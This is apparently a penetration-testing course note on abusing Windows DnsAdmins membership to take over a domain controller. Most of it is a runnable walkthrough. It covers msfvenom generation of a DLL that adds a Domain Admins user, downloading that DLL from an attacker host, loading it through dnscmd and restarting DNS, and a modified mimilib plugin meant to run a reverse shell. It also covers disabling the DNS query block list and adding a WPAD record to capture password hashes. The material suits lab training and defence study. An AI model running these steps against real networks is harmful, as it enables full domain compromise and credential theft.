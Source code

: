 # Windows DnsAdmins Attacks

* Members of the DnsAdmins group have access to DNS information on the network
* The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones
  * The DNS service runs as `NT AUTHORITY\SYSTEM`, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain
  * It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL.
* when DNS is run on a Domain Controller (which is very common):
  * DNS management is performed over RPC
  * [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the `dnscmd` tool from the command line
  * When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
  * When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
  * An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

### Leveraging DnsAdmins Access

#### Generating Malicious DLL

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

#### Starting Local HTTP Server

* \[\[Transferring Files]]

#### Downloading File to Target

```powershell-session
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

#### Loading DLL as Non-Privileged User

```cmd-session
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

* **Only members of the `DnsAdmins` group are permitted to do this.**
* if failed do next step

**Loading DLL as Member of DnsAdmins**

```powershell-session
Get-ADGroupMember -Identity DnsAdmins
```

**Loading Custom DLL**

```cmd-session
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

* **Note: We must specify the full path to our custom DLL or the attack will not work properly.**
* Only the `dnscmd` utility can be used by members of the `DnsAdmins` group, as they do not directly have permission on the registry key.
* &#x20;the DLL will be loaded the next time the DNS service is started
* Membership in the DnsAdmins group doesn't give the ability to restart the DNS service,
  * but this is something that sysadmins might permit DNS admins to do.
* After restarting the DNS service (if our user has this level of access), we should be able to run our custom DLL and add a user (in our case) or get a reverse shell.
* If we do not have access to restart the DNS server, we will have to wait until the server or service restarts.

#### Check our current user's permissions on the DNS service.

**Finding User's SID**

```cmd-session
wmic useraccount where name="netadm" get sid
```

**Checking Permissions on DNS Service**

* Once we have the user's SID, we can use the `sc` command to check permissions on the service

```cmd-session
sc.exe sdshow DNS
```

* &#x20;Per this [article](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/),
  * we can check if our user has `RPWP` permissions which translate to `SERVICE_START` and `SERVICE_STOP`, respectively.

#### Stopping the DNS Service

```cmd-session
sc stop dns
```

* The DNS service will attempt to start and run our custom DLL, but if we check the status, it will show that it failed to start correctly

#### Starting the DNS Service

```cmd-session
sc start dns
```

#### Confirming Group Membership

```cmd-session
 net group "Domain Admins" /dom
```

* **for you to get domain admin permissions you need to log out and login**

### Cleaning Up

* Making configuration changes and stopping/restarting the DNS service on a Domain Controller are very destructive actions and must be exercised with great care.

#### Confirming Registry Key Added

* The first step is confirming that the `ServerLevelPluginDll` registry key exists.
  * Until our custom DLL is removed, we will not be able to start the DNS service again correctly.

```cmd-session
 reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

#### Deleting Registry Key

```cmd-session
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

#### Starting the DNS Service Again

```cmd-session
sc.exe start dns
```

#### Checking DNS Service Status

```cmd-session
sc query dns
```

### Using Mimilib.dll

* we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)
  * from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

#### Reference

* https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

### Creating a WPAD Recorder

* Another way to abuse DnsAdmins group privileges is by creating a WPAD record
* Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack
* Server 2008 first introduced the ability to add to a global query block list on a DNS server.
* By default,
  * **Web Proxy Automatic Discovery Protocol (WPAD)** and **Intra-site Automatic Tunnel Addressing Protocol (ISATAP)** are on the global query block list.
    * These protocols are quite vulnerable to hijacking, and any domain user can create a computer object or DNS record containing those names.
* After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine
* We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

#### Disabling the Global Query Block List

```powershell-session
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

#### Adding a WPAD Record

```powershell-session
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

## Reference

* https://www.winhelponline.com/blog/view-edit-service-permissions-windows/
* https://adsecurity.org/?p=4064
* https://academy.hackthebox.com/module/67/section/603
